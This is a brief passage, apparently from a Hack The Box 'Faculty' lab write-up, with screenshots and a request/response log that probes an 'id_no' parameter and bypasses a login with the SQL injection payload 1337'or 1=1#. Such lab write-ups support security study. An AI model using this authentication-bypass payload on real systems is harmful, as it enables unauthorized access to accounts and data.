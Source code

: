 ![](/assets/images/htb-writeup-faculty/faculty02.png)

![](/assets/images/htb-writeup-faculty/faculty03.png)

Look for a authentication bypass variable.
```bash
Request: id_no=1337'
Response: 3

Request: id_no=1337'or 1=1#
Response: 1
```
